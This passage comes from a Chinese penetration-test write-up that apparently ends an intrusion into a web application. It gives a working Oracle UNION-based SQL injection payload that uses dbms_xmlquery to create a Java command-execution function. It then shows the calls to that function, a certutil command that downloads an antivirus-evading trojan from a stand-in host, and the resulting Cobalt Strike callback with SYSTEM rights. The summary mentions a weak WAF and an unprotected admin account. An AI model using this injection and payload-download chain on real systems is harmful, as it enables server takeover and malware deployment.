 最后创建执行函数，执行LINXRUNCMD：

  * 

    
    
    UNION ALL SELECT  dbms_xmlquery.newcontext('declare PRAGMA AUTONOMOUS_TRANSACTION;begin execute immediate ''create or replace function LinxRunCMD(p_cmd in varchar2) return varchar2 as language java name ''''LinxUtil.runCMD(java.lang.String) return String''''; '';commit;end;'),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL FROM DUAL--

验证函数是否创建成功：

  * 

    
    
    select OBJECT_ID from all_objects where object_name ='LINXRUNCMD'

![](https://gitee.com/fuli009/images/raw/master/public/20221214112539.png)

最后调用函数执行命令：

  * 

    
    
    select LinxRunCMD('whoami') from dual

![](https://gitee.com/fuli009/images/raw/master/public/20221214112540.png)

权限为system，因此可以下载免杀木马，直接cs上线。使用以下命令下载木马：

  * 

    
    
    certutil -urlcache -split -f http://127.0.0.1/1.exe C:\Windows\Temp\1.exe

![](https://gitee.com/fuli009/images/raw/master/public/20221214112541.png)

运行木马，cs收到反弹的权限：

![](https://gitee.com/fuli009/images/raw/master/public/20221214112542.png)

由于是server 2012的服务器，未能获取到明文密码。

  

 **总结**

此次的渗透，可以说是相对比较幸运，由于waf的较弱，比较容易绕过。通过注入获取数据后，刚好有一个管理员账号未设置验证，能够登录后台。通过多个后台权限，寻找防护较弱的后台进行oracle联合注入，执行命令获取主机权限。但由于后续被管理员发现，可能流量存在异常或者木马被查杀，未能继续进行内网探索。相关成果已移交。

  

![](https://gitee.com/fuli009/images/raw/master/public/20221214112543.png)

  

![](https://gitee.com/fuli009/images/raw/master/public/20221214112547.png)

预览时标签不可点
